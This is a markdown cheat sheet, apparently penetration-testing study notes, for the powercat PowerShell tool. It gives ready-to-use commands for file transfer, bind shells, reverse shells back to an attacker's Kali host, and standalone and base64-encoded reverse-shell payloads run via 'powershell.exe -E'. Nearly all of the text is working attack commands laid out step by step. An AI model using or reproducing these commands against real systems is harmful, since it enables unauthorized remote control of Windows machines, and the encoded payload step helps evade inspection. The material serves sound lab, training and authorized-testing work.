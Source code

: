## Powercat

### Powercat Installation
Install `powercat` on Kali machine:
```bash
sudo apt install powercat
```
Powercat is located in `usr/share/windows-resources/powercat`

Transfer `powercat` to target machine using methods found [here]()

### Powercat File Transfers
Send file from **Kali** machine to **target**
```bash
sudo nc -nvlp $PORT > $FILENAME
```
Catch the file on **target**:
```bash
powercat -c $IP -p $PORT -i $DOWNLOAD_PATH
```


### Powercat Bind Shells
Import `powercat` in powershell:
```powershell
import-module .\powercat.ps1
```

Create listener on **target** machine:
```powershell
powercat -l -p $PORT -e cmd.exe
```

Connect to **target** from **Kali** machine:
```bash
nc $KALI_IP $PORT
```

### Powercat Reverse Shells
Import `powercat` in powershell:
```powershell
import-module .\powercat.ps1
```

Create listener on **Kali** machine: 
```bash
sudo nc -nvlp $PORT
```

Connect **target** to **Kali** machine
```powershell
powercat -c $KALI_IP -p $PORT -e cmd.exe
```

### Powercat Payload

Generate `powercat` payload, and create reverse shell:
```powershell
powercat -c $KALI_IP -p $PORT -e cmd.exe -g > reverseshell.ps1 && ./reverseshell.ps1
```



First, have listener run on **Kali** machine:
```bash
sudo nc -nvlp $PORT
```

Generate encoded `powercat` reverse shell:
```powershell
powercat -c $KALI_IP -p $PORT -e cmd.exe -ge > encodedreverseshell.ps1

powershell.exe -E $(type encodedreverseshell.ps1)
```
